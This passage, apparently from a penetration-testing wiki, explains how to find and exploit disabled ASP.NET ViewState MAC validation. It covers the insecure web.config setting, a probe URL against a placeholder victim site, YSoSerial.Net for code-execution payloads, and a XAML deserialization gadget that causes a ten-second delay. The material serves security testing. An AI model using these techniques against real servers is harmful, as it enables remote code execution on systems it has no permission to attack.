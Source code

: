 ```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\.NETFramework\v{VersionHere}
```

Alternatively, adding the following **dangerous setting** to the application level `web.config` file can disable the MAC validation as well:

```markup
<configuration>
…
    <appSettings>
      <add key="aspnet:AllowInsecureDeserialization" value="true" />
    </appSettings>
</configuration>
```

{% hint style="danger" %}
When ViewState MAC validation has been **disabled**, the [YSoSerial.Net](https://github.com/pwntester/ysoserial.net) project can be used to generate `LosFormatter` payloads as the ViewState in order to run arbitrary code on the server.
{% endhint %}

**Prior** to the .NET Framework version **4.5**, the `__VIEWSTATE` parameter could be **encrypted whilst the MAC validation feature was disabled**. It should be noted that **most** **scanners** **do not attempt** to send an unencrypted ViewState parameter to identify this vulnerability. As a result, **manual** **testing** is required to check whether the MAC validation is disabled when the `__VIEWSTATE` parameter has been encrypted. This can be checked by sending a short random base64 string in the `__VIEWSTATE` parameter. The following URL shows an example:

```
https://victim.com/path/page.aspx?__VIEWSTATE=AAAA
```

If the target page **responds with an error, the MAC validation feature has been disabled** otherwise it would have suppressed the MAC validation error message.\
However, in scenarios where you cannot see the error message this trick won't work.

Automated scanners should use a **payload that causes a short delay** on the server-side. This can be achieved by executing the following ASP.NET code as an example to create a 10-second delay:

```
System.Threading.Thread.Sleep(10000);
```

```bash
string xaml_payload = @"<ResourceDictionary
  xmlns=""http://schemas.microsoft.com/winfx/2006/xaml/presentation""
  xmlns:x=""http://schemas.microsoft.com/winfx/2006/xaml""
  xmlns:System=""clr-namespace:System;assembly=mscorlib""
  xmlns:Thr=""clr-namespace:System.Threading;assembly=mscorlib"">
     <ObjectDataProvider x:Key=""x"" ObjectType = ""{ x:Type Thr:Thread}"" MethodName = ""Sleep"" >
     <ObjectDataProvider.MethodParameters>
        <System:Int32>10000</System:Int32>
     </ObjectDataProvider.MethodParameters>
    </ObjectDataProvider>
</ResourceDictionary>";
```
